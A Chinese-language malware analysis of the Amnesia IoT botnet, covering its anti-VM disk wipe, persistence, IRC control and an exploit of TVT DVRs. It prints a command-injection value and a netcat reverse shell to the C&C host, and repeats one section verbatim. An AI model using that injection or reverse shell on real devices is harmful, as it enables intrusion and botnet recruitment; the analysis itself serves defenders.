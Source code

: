 ---

## amnesia威胁报告
目前针对物联网设备的恶意软件越来越普遍，一般来说针对物联网设备的攻击分为两个方面：**一是**通过自动化工具使用密码字典尝试批量猜解物联网设备的管理员帐号及密码，导致攻击者可以轻易访问物联网设备(物联网设备被攻击者控制)；**二是**因为物联网设备存在安全漏洞，攻击者利用漏洞来对设备进行攻击，达到控制设备的目的。
**被控制的物联网设备往往会被攻击者集中起来，组建僵尸网络，从而发起DDoS(分布式拒绝服务攻击)攻击。**

近日，一个Linux僵尸网络Tsunami的新变种——名为Amnesia的恶意软件席卷网络。本文主要从爆发时间线、传播原理、对抗办法几个方面进行分析和阐述。

#### 一、主要爆发时间线

2016年3月，一个名为Rotem Kerner的安全研究员发现，某款DVR(数字视频录像机)存在远程代码利用漏洞，黑客可以利用漏洞远程悄无声息地在设备上执行命令并进行完全掌控，随后他将其发现的漏洞上报了DVR厂商，但是未得到任何回应。

心怀不轨的黑客们发现了这座潜在的“金矿”，名为Amnesia的恶魔便悄然诞生。

Amnesia是Tsunami僵尸网络的变种，其父辈Tsunami是一种下载程序/IRC僵尸程序后门，被网络犯罪分子用来发动DDoS攻击。

Amnesia即为通过利用漏洞来对物联网设备进 行攻击的恶意软件，Amnesia也是首个采用虚拟机检测技术来躲避恶意软件分析沙箱的Linux嵌入式恶意软件。
Amnesia僵尸网络允许攻击者利用 远程代码执行漏洞对未打补丁的数字视频录像机设备发起攻击。其中全球大概70多家厂商受到影响，这些厂商均使用了由TVT Digital（深圳同为）生产的设备。根据目前的扫描数据，全球有227000台设备受此漏洞影响，主要受影响的国家和地区包括：中国台湾、美国、以色 列、土耳其和印度。


#### 二、技术分析
本次发现的Amnesia僵尸网络运行在PowerPC架构上，首先攻击者通过暴力猜解或者其他手段感染DVR设备，使Amnesia恶意代码在 DVR上开始运行，当Amnesia运行后，它会连接远程C&C，并根据控制指令中指定的IP范围扫描网络中的其他DVR设备进行传播。

Amnesia是首个采用虚拟机检测技术来躲避恶意软件分析沙箱的Linux嵌入式恶意代码。针对Windows或安卓的恶意软件常常会采用虚拟机 检测技术来躲避沙箱环境的分析，然而该技术在Linux嵌入式系统上却很少采用。当僵尸网络Amnesia发现自身运行于VirtualBox、 VMware或QEMU虚拟机中，它将删除系统中的所有文件来阻碍恶意软件分析沙箱的正常运行。 

Linux系统中的/sys/class/dmi/id目录里存放了主机的相关硬件信息，包括产品信息、主板信息、Bios信息等，Amnesia就是通过读取该目录中的文件获取当前主机的硬件信息。当Amnesia运行时会读取/sys/class/dmi/id/product_name和/sys/class/dmi/id/sys_vendor文件，并匹配其中是否包含关键字“VirtualBox”、“VMware”和“QEMU”来判断当前目标系统是否为虚拟机。 

当检测到当前主机为虚拟机时，Amnesia将开启自我删除，并删除Linux根目录、当前用户主目录、工作目录，这些删除操作相当于擦除整个Linux系统，会对整个系统造成损害

##### 2.1 反虚拟机

Amnesia是首个采用虚拟机检测技术来躲避恶意软件分析沙箱的Linux嵌入式恶意代码。针对Windows或安卓的恶意软件常常会采用虚拟机 检测技术来躲避沙箱环境的分析，然而该技术在Linux嵌入式系统上却很少采用。当僵尸网络Amnesia发现自身运行于VirtualBox、 VMware或QEMU虚拟机中，它将删除系统中的所有文件来阻碍恶意软件分析沙箱的正常运行。

Linux系统中的/sys/class/dmi/id目录里存放了主机的相关硬件信息，包括产品信息、主板信息、Bios信息等，Amnesia就是通过读取该目录中的文件获取当前主机的硬件信息。当Amnesia运行时会读取/sys/class/dmi/id/product_name和/sys/class/dmi/id/sys_vendor文件，并匹配其中是否包含关键字“VirtualBox”、“VMware”和“QEMU”来判断当前目标系统是否为虚拟机。 

当检测到当前主机为虚拟机时，Amnesia将开启自我删除，并删除Linux根目录、当前用户主目录、工作目录，这些删除操作相当于擦除整个Linux系统，会对整个系统造成损害。 

##### 2.2 感染后行为

当目标系统不是虚拟机环境时，
- Amnesia会执行命令来更改系统限制。 
其中主要命令包括:  

| 命令 | 注释 |
| :---- | :---- |
| echo 80000500 > /proc/sys/fs/nr_open 1>/dev/null 2>/dev/null | 更改进程可以打开的最大文件描述符的数量 |
|ulimit -n 1000 1>/dev/null 2>/dev/null | 更改进程可以打开的最大文件描述符的数量|
|ulimit -n 10000 1>/dev/null 2>/dev/null  | 更改进程可以打开的最大文件描述符的数量|
|ulimit -n 100000 1>/dev/null 2>/dev/null  | 更改进程可以打开的最大文件描述符的数量|
|ulimit -n 1000000 1>/dev/null 2>/dev/null  | 更改进程可以打开的最大文件描述符的数量|
|ulimit -n 10000000 1>/dev/null 2>/dev/null  | 更改进程可以打开的最大文件描述符的数量|
|echo 1 > /proc/sys/net/ipv4/tcp_tw_recycle 1>/dev/null 2>/dev/null  | 开启tcp_tw_recycle选项，能够更快地回收TIME-WAIT套接字|
|sysctl -w net.ipv4.tcp_moderate_rcvbuf=\"0\" 1>/dev/null 2>/dev/null  | 关闭TCP内存自动调整功能|
|sysctl -w fs.file-max=999999999999999999 1>/dev/null 2>/dev/null  | 更改文件句柄的最大数量|

- Amnesia会根据当前用户的权限将自身拷贝到/etc/init.d/.reboottime和/etc/cron.daily/.reboottime,然后修改用户目录下的.bashrc、.bash_profile文件，实现自身随系统启动运行。
- Amnesia会杀死与Telnet及SSH相关的进程，来防止管理员或其他攻击者通过远程登录来控制设备。
将自身写入到用户目录下.bashrc、.bash_profile实现随系统启用运行。 

##### 2.3 控制指令
Amnesia采用IRC协议与C&C进行通信，其中支持的控制指令较多，而且包括许多与DDoS攻击相关的指令。通过对控制命令的进一步 分析，发现Amnesia使用了与Tsunami恶意代码相同的控制指令，也进一步印证了Amnesia为Tsunami的新变种。

##### 2.4 漏洞利用

在控制指令中包括两个特殊的指令CCTVSSCANNER和CCTVPROCS。其中，CCTVSSCANNER用来扫描DVR设备，CCTVPROCS用来对存在漏洞的设备进行攻击。

当Amnesia收到CCTVSSCANNER指令时，Amnesia会构造请求向指定的IP地址发起连接，然后读取返回内容，如果返回内容中包括 “Cross Web Server”，则表示该DVR设备存在。Amnesia会构造请求并在请求中加入要远程执行的shell命令发起对DVR设备的访问。(其 中${IFS}用来代替空格，构造的shell为nc HOST 8888 -e /bin/bash,其中的 HOST会填充为C&C地址)

Amnesia恶意代码会请求/language/[language]/string.js页面,TVT DVR设备在处理针对/language/[language]/路径的请求时，首先会检查[language]是否存在，如果不存在则执行tar -zxf /mnt/mtd/WebSites/language.tar.gz [language]/* -C /nfsdir/language命令。在Amnesia构造的请求中[language]被填充为Swedish${IFS}&&shell，由于Swedish不存在，所以会执行tar -zxf /mnt/mtd/WebSites/language.tar.gz Swedish && shell命令 /* -C /nfsdir/language命 令。即Swedish后面连接的shell命令会被执行，这就导致了远程命令执行。 (关于该漏洞的详细信息可参阅http://www.kerneronsec.com/2016/02/remote-code-execution- in-cctv-dvrs-of.html)
#### 三、影响

通过“跨网络服务器”的指纹我们发现了，全球范围内有超过22.7万台曝露在互联网上的设备，可能为TVT Digital公司生产。我们还分别使用了Shodan.io和Censys.io上的关键字进行了搜索，它们分别报告了大约50,000和约705,000个相关IP地址。

下表列出了前20位潜在易受 TVT Digital DVR设备漏洞影响的国家：

| 序号 |  地区 | 感染数量 |
| --- | --- | ---- |
|1. |Taiwan |47170
|2. |United States |44179
|3. |Israel |23355
|4. |Turkey |11780
|5. |India |9796
|6. |Malaysia|9178|
|7. |Mexico |7868
|8. |Italy |7439
|9. |Vietnam| 6736
|10.|United Kingdom|4402
|11. |Russia |3571
|12. |Hungary|3529
|13. |France |3165
|14. |Bulgaria| 3040
|15. |Romania|2783
|16. |Colombia|2616
|17. |Egypt| 2541
|18. |Canada|2491
|19. |Iran |1965
|20. |Argentina |1748


#### 四、技术分析及预测

随着越来越多的物联网设备连接至互联网，那些不安全的物联网设备正在成为威胁实施者眼中唾手可得并可轻松利用的成熟果实。正如臭名昭著的Mirai 僵尸网络，针对网络摄像头和家庭路由器等设备中的登录漏洞进行攻击利用，发起了迄今为止已知的规模最大的DDoS攻击。如果物联网设备制造商不能确保其设 备的绝对安全，对数字经济的潜在影响将是毁灭性的。
